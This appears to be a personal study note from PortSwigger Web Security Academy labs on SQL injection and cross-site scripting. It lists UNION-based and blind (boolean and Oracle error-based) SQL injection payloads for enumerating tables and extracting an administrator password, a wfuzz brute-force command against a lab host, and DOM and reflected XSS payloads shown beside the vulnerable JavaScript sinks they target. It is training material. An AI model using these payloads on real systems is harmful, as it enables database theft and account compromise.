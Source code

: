 ```yaml
---
title: BurpSuite Lab
author: Yuchao
date: 2022-05-10 11:33:00 +0800
categories: [sec]
tags: [burpsuite]
math: true
mermaid: true
---
```


# sql injection

#### cheetsheet
<https://portswigger.net/web-security/sql-injection/cheat-sheet>

```
'+OR+1=1--
'+UNION+SELECT+NULL,NULL--

-- find columns are compatible with string data
'+UNION+SELECT+'abcdef',NULL,NULL--

-- oracle, find database type and version
'+UNION+SELECT+'abc','def'+FROM+dual--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

-- mysql, find database type and verion
'+UNION+SELECT+'abc','def'#
'+UNION+SELECT+@@version,+NULL#

-- list database contents, not oracle
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--

-- list database contents, oracle
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--

-- blind, conditional responses
-- "Welcome back" message disappears if error
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

-- blind, error based, 
TrackingId=qi1dv3ezFEfn1WHY' || (select '' from users where rownum=1) ||'; session=oAr6CBmB8X7rdA5tS8FQRfcfX1qELUtK
-- WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row, which would break our concatenation. 
-- Conditional errors
-- You can test a single boolean condition and trigger a database error if the condition is true. Oracle: SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual 
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- check if administrator exists.
Cookie: TrackingId=qi1dv3ezFEfn1WHY' || (SELECT CASE WHEN (length(password)>19) THEN to_char(1/0) ELSE NULL END FROM users where username='administrator' ) ||'; session=oAr6CBmB8X7rdA5tS8FQRfcfX1qELUtK
-- when 19, return code500, mean > 19 is true; when 20, return code200, mean > 20 is false.
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- blind test password
-- wfuzz is much quicker than intruder.
wfuzz -H "Cookie: TrackingId=qi1dv3ezFEfn1WHY' || (SELECT CASE WHEN (SUBSTR(password,1,6)='1psbwFUZZ') THEN to_char(1/0) ELSE NULL END FROM users where username='administrator' ) ||'; session=oAr6CBmB8X7rdA5tS8FQRfcfX1qELUtK" -u https://aca41fa31e42c37cc0b00aa9001a0095.web-security-academy.net/filter?category=Pets -w /home/kali/wordlist/alphanum --sc 500
```

# Cross-site scripting

- url ``` web-security-academy.net/?search=<script>alert%281%29<%2Fscript> ```
- ``` <script> alert(1) </script>```

---

"View source" option won't work for DOM XSS testing 

---

document.write
```js
function trackSearch(query) {
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
	trackSearch(query);
}
```
``` "><svg onload=alert(1)> ```

---

innerHTML
```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}

```
``` <img src=1 onerror=alert(1)> ```

---

jQuery selector sink
```javascript
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

```javascript
<a id="author" href="javascript:alert(1)">0xZEN</a>
```
---

HTML ```<a>``` href Attribute
- ``` <a href="URL"> ```
- The URL of the link.
Possible values:
- An absolute URL - points to another web site (like href="http://www.example.com/default.htm")
- A relative URL - points to a file within a web site (like href="default.htm")
- Link to an element with a specified id within the page (like href="#section2")
- Other protocols (like https://, ftp://, mailto:, file:, etc..)
- A script (like href="javascript:alert('Hello');")    THIS ONE CAN BE USED TO XSS.

---

AngularJS expression
```
{{$on.constructor('alert(1)')()}}
```

---

Reflected DOM XSS
- reflected in json format
```javascript
{"results":[],"searchTerm":"asd"}
```
search: ``` \"-alert(1)}// ```
```javascript
{"results":[],"searchTerm":"\\"-alert(1)}//"}
```
- note:  ``` \ ``` can not be interpretered alone, so if only one \ will be error in json.
- ``` a = {"results":[],"searchTerm":"\\\"} ``` Error
- ``` a = {"results":[],"searchTerm":"\\\\"} ``` Good
- An arithmetic operator (in this case the subtraction operator) is then used to separate the expressions before the alert() function is called.
